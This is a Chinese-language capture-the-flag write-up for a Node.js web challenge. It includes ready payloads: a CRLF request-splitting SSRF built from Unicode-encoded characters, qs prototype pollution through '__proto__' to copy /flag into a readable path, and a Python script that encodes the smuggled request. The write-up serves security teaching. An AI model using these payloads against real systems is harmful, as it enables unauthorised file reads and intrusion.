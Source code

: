 ![image-20211206231746702](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211206231746702.png)

/request路由下的请求经过`CheckUrl`的检查

![image-20211206231939254](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211206231939254.png)

必须开头是http://127.0.0.1:3000/query，没法绕过，需要SSRF；请求之后会被记录在sandbox的results.txt里面（追加的形式），sandbox根据ip建立

而恰好/query本身也是一个路由

![image-20211206232301967](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211206232301967.png)

并且参数param比较好绕过，我们借助它来完成我们的攻击；接下来找利用点，看到/save路由

![image-20211206234720831](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211206234720831.png)

简单的分析写在注释中了，138行用ssrf绕过，146行使用的qs库有[原型链污染](https://security.snyk.io/vuln/npm:qs:20170213)的问题，传参`]=switch`即可绕过；154行的判断也需要绕过，原型链污染sandbox下的一个文件为`/flag`，再去自定义读到spath中

```
tmp['__proto__']['opath'] = '/flag';
=>
paths.opath = /flag
```

payload

```http
amiz HTTP/1.1
Host: 127.0.0.1:3000
Connection: keep-alive

GET /save?]=switch&sandbox=__proto__&opath=/flag&spath=/app/tmp/c74e4def8b621891bc34c84bca9b2a76
```

```
http://127.0.0.1:3000/query?param=1\u{0120}HTTP/1.1\u{010D}\u{010A}Host:\u{0120}127.0.0.1:3000\u{010D}\u{010A}Connection:\u{0120}keep-alive\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/\u{0173}\u{0161}\u{0176}\u{0165}?]=switch&sandbox=__proto__&opath=/flag&spath=tmp/c74e4def8b621891bc34c84bca9b2a76
```

![image-20211207020732089](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211207020732089.png)

![image-20211207001654270](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211207001654270.png)

![image-20211207002041861](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211207002041861.png)

当然，用完全unicode编码也是可以的，亲测这个全编码容错率会高一丢丢

```python
from requests.utils import quote
_payload = '''amiz HTTP/1.1
Host: 127.0.0.1:3000
Connection: keep-alive

GET /save?]=switch&sandbox=__proto__&opath=/flag&spath=/app/tmp/c74e4def8b621891bc34c84bca9b2a76'''

payload = _payload.replace("\n", "\r\n")
payload = ''.join(chr(int('0xff' + hex(ord(c))[2:].zfill(2), 16)) for c in payload)
print(quote(payload))

```
